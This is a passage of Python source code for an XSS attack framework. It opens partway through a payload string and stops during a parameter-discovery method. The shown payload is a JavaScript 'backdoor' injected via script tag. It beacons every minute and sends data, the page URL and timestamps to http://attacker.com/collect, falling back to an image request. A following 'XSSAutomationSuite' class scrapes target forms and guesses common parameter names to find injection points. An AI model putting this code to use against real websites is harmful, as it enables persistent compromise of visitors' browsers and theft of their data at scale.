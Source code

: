 ```python
        }},
        heartbeat: function() {{
            setInterval(function() {{
                backdoor.sendData("heartbeat", "alive");
            }}, 60000);
        }},
        sendData: function(type, data) {{
            fetch("http://attacker.com/collect", {{
                method: "POST",
                body: JSON.stringify({{
                    type: type,
                    data: data,
                    url: location.href,
                    timestamp: new Date().toISOString()
                }})
            }}).catch(function() {{
                new Image().src = "http://attacker.com/collect?type=" + type + "&data=" + encodeURIComponent(data);
            }});
        }}
    }};
    backdoor.init();
}})();
</script>'''
        }
        
        return exploitation_payloads

# XSS Automation Framework
class XSSAutomationSuite:
    def __init__(self, target_list):
        self.targets = target_list
        self.results = []
        
    def discover_parameters(self, url):
        """Discover input parameters from forms and URLs"""
        parameters = set()
        
        try:
            response = requests.get(url, timeout=10)
            soup = BeautifulSoup(response.text, 'html.parser')
            
            # Find form parameters
            forms = soup.find_all('form')
            for form in forms:
                inputs = form.find_all(['input', 'textarea', 'select'])
                for input_tag in inputs:
                    name = input_tag.get('name')
                    if name:
                        parameters.add(name)
            
            # Common parameter names
            common_params = [
                'q', 'search', 'query', 'keyword', 'term', 'name', 'email',
                'message', 'comment', 'feedback', 'input', 'data', 'value',
                'text', 'content', 'description', 'title', 'subject'
            ]
            parameters.update(common_params)
            
        except Exception as e:
            print(f"Error discovering parameters: {e}")
        
        return list(parameters)
```